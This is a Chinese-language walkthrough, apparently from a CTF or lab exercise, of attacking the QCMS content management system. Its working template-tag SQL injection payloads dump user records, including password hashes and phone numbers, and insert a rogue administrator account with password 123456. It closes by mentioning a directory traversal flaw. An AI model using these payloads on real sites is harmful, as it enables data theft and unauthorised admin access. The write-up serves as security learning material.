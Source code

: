 >   **在同模块下可以发现一个万能标签：**

```nginx
{{loop sql='select * from qc_user'}}
    用户昵称：{{qcms:Loop_NickName}}
    用户头像： <img src="{{qcms:Loop_Head}}" style="height: 100px;width:100px;" />
{{/loop}}
```

>   然后丢到主页那个搜索框中可以获取到用户的名称和头像



>   **修改一下sql在配合一波发现sql文件，可以将数据库中的那个管理员账号查询出来**

```nginx
{{loop sql='select * from qc_user'}}
    用户密码：{{qcms:Loop_Password}}
    用户电话：{{qcms:Loop_Phone}}
    用户id：{{qcms:Loop_UserId}}
{{/loop}}

```

![image-20230514191107514](web-qqcms.assets/image-20230514191107514.png)

>   将拿到的管理员密码拿去md5解密发现解不开
>
>   -   这里绕了个大弯，以为服务器有自己的加密规则啥的，然后一直想着去读那个install.php是不是和本地一样的，发现一直都读不到.......

>   **后面玩这个sql执行玩着玩着发现可以执行任意sql，不仅可以执行select还可以insert**
>
>   **然后就自己插入一个管理员，根据那个sql文件提供的字段名**

>   **这里也有个坑，因为insert成功还是失败页没有回显，服务器那边会一直报错，然后insert了很多条，然后回头使用上面那个查询所有用户信息的sql查询一下发现已经insert成功了**
>
>   
>
>   **测试sql可以在本地环境中的后台进入这个界面`[模板标签测试](http://www.aaaa.com/admin/templates/test.html#)`测试**
>
>   执行完一次就看一下数据库是否成功加了一条数据，或者看右边第一个是不是：`Uncaught PDOException: SQLSTATE[HY000]: `

```sql
{{loop sql='INSERT INTO `qc_user` VALUES (666, 18888888889, "管理员", "", "e10adc3949ba59abbe56e057f20f883e", "", "", 1, "", 2, 0.00, 0, 1, 1652334396, "127.0.0.1", 1, 1, 1, 1652334410, "127.0.0.1")'}}{{/loop}}
```

>   只要保证sql正确，执行完上面这个就可以直接去登录页面登录，密码是123456

>   **然后就进入到后台，也是在模板标签测试页面，这个有个目录穿越的漏洞**

